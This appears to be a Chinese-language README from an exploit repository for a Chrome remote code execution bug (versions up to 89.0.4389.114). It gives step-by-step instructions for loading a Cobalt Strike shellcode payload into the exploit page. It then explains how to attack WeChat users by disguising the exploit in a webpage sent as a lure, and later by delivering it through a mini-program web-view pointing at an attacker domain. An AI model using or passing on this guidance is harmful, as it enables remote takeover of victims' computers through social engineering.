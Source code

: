 ## Chrome 远程执行

`exploit.html`内是弹记事本的POC

用非沙箱模式的chrome打开页面即可攻击成功，

- CTRL+R，”Chrome路径“ -no-sandbox
- 右键编辑Chrome浏览器的快捷方式，目标末尾添加 -no-sandbox

若想替换成Cobalt Strike的Payload

直接用攻击-Payload内生成内容，输出选择c，x64 payload，将'\\'替换成',0'，去掉第一个','放入exploit.html里的shellcode字段内，非沙箱打开页面即可上线

> 该漏洞影响Chrome <= 89.0.4389.114
>
> Pwn2Own大会上一个印度白帽发出一个珍藏的Chrome RCE漏洞POC，据分析与本漏洞一致，hhhhh



## Wechat exp

`exp.js`为弹出计算器的利用脚本，在伪装的html中导入此js脚本即可

Chrome漏洞爆出后几天，有心的黑客突然意识到wechat默认浏览器是Chrome且默认非沙箱，当场伪装到了网页里，通过微信发送诱导点击，实现cs上线



## new Wechat exp

几天内，chrome和wechat立马推出更新，微信将默认浏览器改为了调用用户默认浏览器，不久被人爆出通过微信小程序也可实现攻击，就用上一次的exp就行，只是换了个攻击位置

通过wx开发者工具创建小程序，AppID可选测试号

编辑index.html

`<web-viewsrc="http://youdomain/"> </web-view>`这个链接你可以引用你云端其他地方的js引用，也可以写在小程序里面

启动小程序访问，直接上线